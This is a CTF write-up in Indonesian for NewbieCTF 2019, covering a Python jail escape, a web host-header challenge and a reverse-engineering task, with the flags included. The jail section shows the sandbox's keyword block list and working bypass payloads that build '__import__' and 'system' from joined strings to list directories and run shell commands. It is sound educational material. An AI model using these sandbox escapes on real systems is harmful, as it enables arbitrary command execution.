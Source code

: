 ```yaml
---
slug: writeup-newbiectf-2019
title: Writeup NewbieCTF 2019
date: 2019-11-03
author: Bardizba
keywords: [WRITE-UP NewbieCTF 2019]
description: WRITE-UP NewbieCTF 2019
excerpt: NewbieCTF 2019. A cool CTF from CTF Team KorNewbie, Three High school clubs(D.I.S, CPU, N.I.T)newbie CTF cocok buat yang mau belajar CTF, karna soal nya masih tergolong mudah. sayangnya forensiknya file nya gede - gede wkwk. dan web exploit nya cuma satu.
tags : ["ctf"]
---
```

![ctf](./gambar.png)
NewbieCTF 2019
A cool CTF from CTF Team KorNewbie, Three High school clubs(D.I.S, CPU, N.I.T)

newbie CTF cocok buat yang mau belajar CTF, karna soal nya masih tergolong mudah. sayangnya forensiknya file nya gede - gede wkwk. dan web exploit nya cuma satu.

# Pwnable
## Python Jail

    Hi! Welcome to pyjail!
    Escape Jail If you can!

    Author: SPark
    nc prob.vulnerable.kr 20001

saat dibuka nc-nya, terdapat sebuah python sandbox dengan kdoe seperti berikut yang akan mengeksekusi input pada perintah __exec(text)__ 

```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to pyjail!")
    print("========================================================================")
    print(open(__file__).read())
    print("========================================================================")
    print("RUN")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("No!!!")
            return
    else:
        exec(text)
if __name__ == "__main__":
    main()
```


biasanya sandbox seperti ini bisa kita akali dengan memanfaatkan *predifined variable/function* yang ada. di python kita bisa memanfaatkan variable __\_\_builtins\_\___.


karena code yang diberikan tidak memperbolehkan payload berisi keyword berikut : ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']. maka kita akali dengan fungsi join string yang ada di python.kita coba masukan payload berikut untuk mendapatkan list direktorinya: 
    
```python
print(__builtins__.__dict__[''.join(['__impor','t__'])](''.join(['o','s'])).listdir('/home/python_jail'))
```
hasilnya : 

```python
['.bashrc', '.profile', '.bash_logout', 'flag', 'python_jail.py']
```

ternyata terdapat file *flag*. kita coba buka file flag tersebut dengan methos *os.system* pada python. lagi - lagi karena keyword system di banned pada code, maka kita bisa menggunakan fungsi getattr supaya bisa memanggil method system* menggunakan string.
kita menggunakan payload berikut :
    
```python
print(getattr(__builtins__.__dict__[''.join(['__impor','t__'])](''.join(['o','s'])),"".join(['sys','tem']))('cat /home/python_jail/flag'))
```

dan dipatkan flag :

```bash
KorNewbie{H311o_h0w_@r3_y0u_d0lng?}
```
<br/>
---
    
# Web Hacking
## Normal_Host
```
Normal_Host

This is Just a Normal Host! Can you hack?
Author: Y311J(신재욱)
LINK:
```

[LINK](https://internal.iwinv.net/)

Awalnya pada kategori web hacking memiliki 2 Chals, dan 2 chals tersebut berada pada satu server. saat saya coba mencari flag chals pertama(chals tersebut bertipe RCE PHP) ternyata malah ketemu flag untuk chals yang ini wkwk.

untuk mendapatkan flag pada chals ini masukan payload :
```
normalflag.iwinv.net:80
```

Flag : 
```
KorNewbie{H0$7_$P1it_A774cK_U$3s_N0RM^liZ47ioN&##$%%!}
```

<br/>
---
# Forensics
## Rec

```
REC? Kion vi celas?
```

diberikan file REC.exe, decompile file tersebut dengan IDA, lalu kita lihat function - function yang ada. dan ternyata terdapat fungsi yang menampilkan flag sesuai formatnya.

![ida-pro](./pics/ida.png)

kita copy dan lakukan find and replace menggunakan VSCode.

    Flag : KorNewbie{Recover_Signature}